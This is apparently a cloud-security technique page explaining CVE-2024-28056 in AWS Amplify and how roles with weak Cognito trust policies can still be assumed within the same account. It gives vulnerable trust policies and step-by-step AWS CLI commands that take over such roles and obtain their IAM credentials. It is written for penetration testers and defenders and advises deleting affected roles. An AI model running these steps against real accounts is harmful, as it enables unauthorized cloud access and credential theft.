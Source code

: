 ```yaml
---
author_name: Nick Frichette
title: "CVE-2024-28056: Exploit an AWS Amplify Vulnerability in Same-Account Scenarios"
description: An in-depth explanation of how to still abuse CVE-2024-28056, a vulnerability in AWS Amplify that exposed IAM roles to takeover.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/">Amplified exposure: How AWS flaws made Amplify IAM roles vulnerable to takeover</a> by <a href="https://x.com/Frichette_n">Nick Frichette</a></p>
    <p><img src="https://pbs.twimg.com/profile_images/1778462051670642688/rE7irovE_400x400.jpg" alt="Nick Frichette" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [AWS Security Bulletin: CVE-2024-28056](https://aws.amazon.com/security/security-bulletins/AWS-2024-003/)
</div>

## Background

In April of 2024, Security Researchers at [Datadog](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/) found a vulnerability in the [AWS Amplify](https://aws.amazon.com/amplify/) service that exposed IAM roles associated with the service to takeover. In particular, under two different scenarios the Amplify service was setting the role trust policies of certain roles to improperly limit which [Cognito identity pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-identity.html) could assume them. As a result, anyone could create their own identity pool (or find one on the internet) and use it to assume these vulnerable roles.

In response to this, AWS made a number of changes to IAM and the [AWS Security Token Service](https://docs.aws.amazon.com/STS/latest/APIReference/welcome.html) (STS) APIs. In particular, this involved:

* Releasing a fix to the [Amplify CLI](https://github.com/aws-amplify/amplify-cli/releases/tag/v12.10.1) and Amplify Studio preventing the creation of more vulnerable roles.
* Made changes to the IAM control plane to prevent anyone from creating role trust policies vulnerable to this misconfiguration. If you try to set a vulnerable policy today it will be rejected.
* Made changes to the STS service to **block cross-account role assumption of roles that have a vulnerable trust relationship with the Amazon Cognito service**.

This final fix is interestingly specific. AWS only made changes to block **cross-account** role assumption, not **same-account** role assumption. As a result of this, we can still potentially take advantage of roles that were made vulnerable by the Amplify service. This requires an identity pool to be configured in the victim account with the [basic (classic) authflow](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html) enabled.

!!! Warning
    **To be clear, this method is more difficult and requires the existence of at least one additional misconfigured resource**, however it is worthwhile to know about if you are a Penetration Tester or Red Teamer, or you simply use Amplify in your own organization.

!!! Note
    This is not realistically something that can be "fixed". AWS was able to block cross-account role assumption because it was a sufficiently rare occurrence. By comparison, same-account role assumption using Cognito is (as of today) the only method available. If you have IAM roles in your account which are vulnerable to this exposure it is recommended to delete them, or change their trust policy in addition to relying on the fixes that AWS provided.

## Unauthenticated Example

![Unauthenticated Scenario](../../../images/aws/exploitation/exploit_amplify_vulnerability_in_same_account_scenario/unauth_same_account_scenario.png)

In this scenario, there exists a vulnerable role in the account, alongside an identity pool that has the basic authflow enabled. This role's trust policy does not require authentication to assume. Here is an example of a vulnerable trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

!!! Note
    There is another variant of this misconfiguration where the trust policy includes a condition for `cognito-identity.amazonaws.com:amr` that is set to `unauthenticated`.

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. Using the AWS CLI, perform the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id>`
    * This can typically be found in the client side JavaScript of the web application using this identity pool.
2. Using the `IdentityId` from step one, perform the following command: `aws cognito-identity get-open-id-token --identity-id <identity id from step 1>`
    * This will return a JWT we can use to authenticate to the vulnerable role. You can inspect this JWT if you so choose.
3. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 2>`
    * The vulnerable role ARN will need to be [brute-forced](../../enumeration/enum_iam_user_role.md), [derived from other values](../../enumeration/enumerate_principal_arn_from_unique_id.md), found in [source control](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/#results-finding-misconfigured-roles-in-the-wild), or a variety of other means.

By following these steps you should successfully generate IAM credentials for the vulnerable role:

```json
{
    "Credentials": {
        "AccessKeyId": "ASIA123ABC456DEF789G",
        "SecretAccessKey": "123ABC456DEF789G123ABC456DEF789GHI012JKL",
        "SessionToken": "...snip...",
        "Expiration": "2024-07-31T20:02:33+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:00000000-1111-2222-3333-444444444444",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA123ABC456DEF789G:hijacked_role",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vulnerable-amplify-role/hijacked_role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:aaaaaaaa-1111-bbbb-2222-cccccccccccc"
}
```

## Authenticated Example

In an authenticated scenario, the identity pool in the victim account must be configured to support authentication with a [Cognito user pool](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-identity-pools.html). An example vulnerable role trust policy can be found below:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

### Steps to Exploit

In order to assume a role that has this vulnerable trust policy, follow these steps:

1. First, find credentials for a user account in the pool. If you cannot steal or create credentials you cannot continue.
2. Authenticate to the user pool using [cognito-idp:InitiateAuth](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/initiate-auth.html). The specific command you will need to use will differ depending on the type of authentication in place. Please refer to the documentation for more information. Here we will demonstrate using `USER_PASSWORD_AUTH`.
    * Run the following command: `aws cognito-idp initiate-auth --auth-flow USER_PASSWORD_AUTH --client-id <client id of the victim user pool> --auth-parameters USERNAME=<username>,PASSWORD=<password>`
    * This will return an `IdToken` that will be used in the next step.
    * Note: The `AccessToken` is **NOT** the same as the `IdToken`. 
3. Run the following command: `aws cognito-identity get-id --identity-pool-id <victim identity pool id> --logins '{"cognito-idp.<region>.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * This will return an `IdentityId` that will be used in the next step.
4. Run the following command: `aws cognito-identity get-open-id-token --identity-id <IdToken from step 3> --logins '{"cognito-idp.us-east-1.amazonaws.com/<victim user pool id>":"<IdToken from step 2>"}'`
    * Note: You **MUST** include the `logins` parameter, it is not optional.
    * This will return a JWT we will use in the next step.
5. With this JWT, perform the following command: `aws sts assume-role-with-web-identity --role-arn <vulnerable role ARN> --role-session-name <session name of your choosing> --web-identity-token <JWT from step 4>`

By following these steps you should successfully generate IAM credentials for the vulnerable role.
